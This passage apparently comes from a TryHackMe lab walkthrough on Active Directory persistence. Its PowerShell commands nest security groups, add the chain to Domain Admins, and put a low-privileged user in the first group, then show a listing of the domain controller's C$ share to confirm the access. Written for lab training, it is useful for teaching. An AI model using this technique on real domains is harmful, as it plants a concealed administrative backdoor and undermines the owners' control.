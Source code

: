 We can do this a couple more times, every time adding the previous group as a member:

- **Terminal**      

```powershell
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=CONSULTING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 3" -SamAccountName "<username>_nestgroup3" -DisplayName "<username> Nest Group 3" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup3" -Members "<username>_nestgroup2"
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=MARKETING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 4" -SamAccountName "<username>_nestgroup4" -DisplayName "<username> Nest Group 4" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup4" -Members "<username>_nestgroup3"
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=IT,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 5" -SamAccountName "<username>_nestgroup5" -DisplayName "<username> Nest Group 5" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup5" -Members "<username>_nestgroup4"
```

With the last group, let's now add that group to the Domain Admins group:

- **Terminal**      

```powershell
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
```

Lastly, let's add our low-privileged AD user to the first group we created:

- **Terminal**      

```powershell
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
```

Instantly, your low-privileged user should now have privileged access to THMDC.  Let's verify this by using our SSH terminal on THMWRK1:

- **Terminal**      

```powershell
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>dir \\thmdc.za.tryhackme.loc\c$\ 
 Volume in drive \\thmdc.za.tryhackme.loc\c$ is Windows 
 Volume Serial Number is 1634-22A9

 Directory of \\thmdc.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1     
05/01/2022  09:11 AM               169 dns_entries.csv
09/15/2018  08:19 AM    <DIR>          PerfLogs
05/11/2022  10:32 AM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
05/01/2022  09:17 AM             1,725 thm-network-setup-dc.ps1    
04/25/2022  07:13 PM    <DIR>          tmp
05/15/2022  09:16 PM    <DIR>          Tools
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant] 
04/27/2022  08:12 PM    <DIR>          Windows
               3 File(s)          1,997 bytes
               8 Dir(s)  51,573,755,904 bytes free
```
